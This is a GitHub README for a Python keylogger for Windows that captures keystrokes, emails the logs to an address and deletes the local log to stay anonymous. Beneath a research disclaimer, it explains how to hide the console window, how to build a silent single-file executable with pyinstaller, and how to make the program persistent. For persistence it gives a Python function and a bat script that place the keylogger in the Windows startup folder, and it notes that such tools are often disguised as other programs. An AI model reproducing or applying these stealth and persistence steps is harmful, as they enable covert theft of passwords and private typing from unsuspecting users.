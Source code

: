 # This program is primarily used to research how keyloggers work.

# Python-KeyLogger-Windows
A Keylogger written in Python 3.6 that takes in user input from the keyboard, stores the data in a log, and then sends it to an email address. The data log is destroyed after the email is sent to remain anonymous.

<h1>DISCLAIMER</h1>
This program is for educational/research purposes only. The author takes no responsibility and/or liability for how an individual chooses to use any of the source files provided. The author will not be liable for any losses and/or damages in connection to the use of the program and its provided files. By using CSL_KeyLogger_Windows and/or any of its files included, you understand that you are AGREEING TO USE THE PROGRAM AT YOUR OWN RISK. This program is ONLY intended for personal use on a personal pentesting lab, or with consent from an individual of a system being tested.

<h2>Windows installation of python modules:</h2>
<strong>Download pyWin32 and pyHook modules from here, these libraries are required:</strong>
https://www.lfd.uci.edu/~gohlke/pythonlibs/

<strong>Troubleshooting:</strong>
<ul>
 	<li>-ensure that your python version matches the module you are installing, or you will get errors when installing the modules.</li>
 	<li>-If you get an error, try installing the alternate version of the same version of the module as your python version.
An example is if you download pyHook-1.5.1-cp36-cp36m-win_amd64 and you get an error, then try pyHook-1.5.1-cp36-cp36m-win32.</li>
 	<li>-majority of the times an error occurs when installing modules is usually from either a mismatch of versions with the module and python, or pip is not up to date.</li>
 	<li>-to update pip
python -m pip install --upgrade pip</li>
</ul>

<h1>Guide on how to install Python Modules on Windows:</h1>
<strong>Open up the windows Command prompt as admin:</strong>
<ul>
 	<li>change to d drive if you have pythons executable here (in my case its in the d drive):
d:</li>
 	<li>change directory to the python exe:
cd D:\YourPath\venv\Scripts</li>
 	<li>now we want to install the pyHook module from this directory with pip, (my path is the following, change the path to wherever you have stored the .whl module):
py -3.6 -m pip install C:\Users\YourPath\pywin32-223-cp36-cp36m-win32.whl</li>
 	<li>now we want to install the pyWin32 module from this library with pip, (my path is the following, change the path to wherever you have stored the .whl module):
py -3.6 -m pip install C:\Users\YourPath\pywin32-223-cp36-cp36m-win32.whl</li>
</ul>
&nbsp;

<img src="screenshots/screen1.png"  />

<hr />

<h2>Troubleshooting:</h2>
<ul>
 	<li><strong>SMTPAuthenticationError when sending mail using gmail FIX:</strong></li>
</ul>
When using googles mail server, the email that you are using will be blocked for any sign-in attempts with the python program unless better security standards are in place. Because of this we need to enable access to less secure apps to allow us to send emails to this gmail account with the python program.

Sign into the gmail account that you want to use with the python program, and press the <strong>Turn On</strong> toggle button:
<a href="https://www.google.com/settings/security/lesssecureapps">https://www.google.com/settings/security/lesssecureapps</a>

<img src="screenshots/screen2.png"  />
<ul>
 	<li><strong>Python IDLE issues, keylogger is not picking up keys FIX:</strong></li>
</ul>
If you are dealing with this issue with the IDLE, then delete the contents in the .idlerc folder located within your user profile of your computer. To find the folder check your user profile name followed by %APPDATA% and look for a folder called.<b>".idlerc"</b>. Delete everything in that folder, and you should be able to run the program through python IDLE.

<img src="screenshots/screen3.png"  />

<h2>Output:</h2>
<strong>Running the Program:</strong>
Open IDLE, or PyCharm, or whatever text editor, or IDE that you prefer for python and run the program. The python program outputs the values it picks up from the key presses using the print statements. This is a good way to see how the keylogger works. If you want to hide the DOS shell window that appears when running the python program, change the file extension from <b>".py"</b> to <b>".pyw"</b>.


<strong>Here is an example of the program running. This is the output after first going to notepad and typing some words, then going to google. This is to show how the program marks the windows/programs the target is currently on.</strong>


<img src="screenshots/screen4.png"  />

<img src="screenshots/screen5.png"  />

<img src="screenshots/screen6.png"  />

<img src="screenshots/screen7.png"  />

<strong>This is how the log file(s) store the logged keys:</strong>
<img src="screenshots/screen8.png"  />

<strong>This is the sent keys logged to the email specified:</strong>
<img src="screenshots/screen9.png"  />

<hr />

<h2>Creating the Executable:</h2>
When creating the executable file you want to use the python module, <b>pyinstaller</b>. This allows the program to be ran anywhere. The first thing required is the pyinstaller module, so install it using pip:

<div style="background: #000000; color: #00ff00; overflow: auto; width: auto; border: solid gray; border-width: .1em .1em .1em .8em; padding: .2em .6em;">
<pre style="margin: 0;">
pip install pyinstaller
</pre>
</div>

Then type the following command on your windows command prompt to create the executable:
<div style="background: #000000; color: #00ff00; overflow: auto; width: auto; border: solid gray; border-width: .1em .1em .1em .8em; padding: .2em .6em;">
<pre style="margin: 0;">
pyinstaller -w -F name_of_python_script.py
</pre>
</div>

The -w removes the opening of prompt window, while -F ensures that the executable is a single file that includes everything, rather then a folder. Once that's done navigate to the <b>dist</b> folder within the folder of your newly created python script, and grab the exe file.

The file is now created.

<hr />

<h2>Persistenly Run KeyLogger on Startup:</h2>
On Windows devices there is a startup folder that determines which applications will run on startup. This folder is where some exploiters will store their keyloggers, in some cases they will mask it as a another program. Essentially this is done by implementing a python function that creates a bat file that runs the <b>'start'</b> command, followed by the file path to the keylogger to execute the program. Or a general bat file stored in the startup folder that contains the following script with the commands will work.

Here is the python function that can be included in the program which creates the bat file. (I have included the full program with log deletion and bat startup under "key_log_win_withBATCreation.pyw"):
<div style="background: #000000; color: #00ff00; overflow: auto; width: auto; border: solid gray; border-width: .1em .1em .1em .8em; padding: .2em .6em;">
<pre style="margin: 0;">import getpass as gp
usern = gp.getuser()

def bat_create_file(path_log=""):
    bat_path = r'C:\Users\%s\YourPath\Startup' % usern
    with open(bat_path + '\\' + "open.bat", "w+") as bat_file:
        bat_file.write(r'start "" %s' % path_log)

bat_create_file(path_log)
</pre>
</div>
Sometimes a separate bat file is used instead of having a built-in function:
<div style="background: #000000; color: #00ff00; overflow: auto; width: auto; border: solid gray; border-width: .1em .1em .1em .8em; padding: .2em .6em;">
<pre style="margin: 0;">REM Place in startup folder
start "" path_log/myProgram.exe
exit</pre>
</div>


